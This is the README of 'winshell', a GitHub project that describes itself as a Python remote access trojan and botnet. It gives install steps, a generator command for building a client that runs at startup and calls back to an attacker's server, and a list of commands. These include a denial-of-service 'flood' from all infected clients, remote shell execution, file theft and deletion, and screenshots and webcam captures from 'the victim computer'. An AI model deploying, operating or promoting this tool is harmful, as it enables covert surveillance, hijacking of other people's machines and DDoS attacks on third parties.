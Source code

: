 
[![PythonV](https://img.shields.io/badge/python-2.7-brightgreen.svg)](https://www.python.org/download/releases/2.7/)
# winshell

**winshell is a python opensource RAT and Botnet**

### Installation
 - ####     Windows
   - `git clone https://github.com/Z4RK/winshell.git`
   - `cd winshell`
   - `pip install -r requierements.txt`
 - #### Linux
   - `git clone https://github.com/Z4RK/winshell.git`
   - `cd winshell`
   - `./install.sh`
   - `pip install -r requierements.txt`

### Features
 - The client can be compiled into an executable file
 - Supports multi-clients
 - The server can be run on Linux / Windows
 - The program can perform denial of service attacks with all clients connected to the server
 - Can execute all shell commands
 - Can upload and download file
 - Can run the client at startup
 - Can browse files & more...
 
### Usage
 - #### Generate the client
   - `python generate.py --host <server hostname> --port <port to use> [--out <output name>|--addstartup]`
 - #### Server commands
   - **Commands in the winshell menu**
     - `list client` list all clients connected on the server
     - `interact <client id>` start a session with a client
     - `flood <url/ip>` do a denial of service attacks with all clients connected
     - `quit` quit winshell
   - **Commands with a remote session**
     - `help` show this message
     - `upload <arg>` upload a file
     - `download <arg>` download a file
     - `cd <arg>` change directory
     - `ls` list files in current directory
     - `rm <arg>` remove a file
     - `rmdir <arg>` remove a directory
     - `screenshot` take a screenshot from the victim computer
     - `webcam_snap` taka a webcam picture form the victim computer
     - `getpid` get the current process id
     - `ps` list running process
     - `search <arg>` filter running process by name
     - `currentporcess` get the current process run on the victim computer
     - `force <arg>` do a shell command with an output (ipconfig, dir)
     - `force2 <arg>` do a shell command without an output(mkdir, start...)
     # 
     
     [![PythonV](http://ForTheBadge.com/images/badges/made-with-python.svg)](https://www.python.org/download/releases/2.7/)
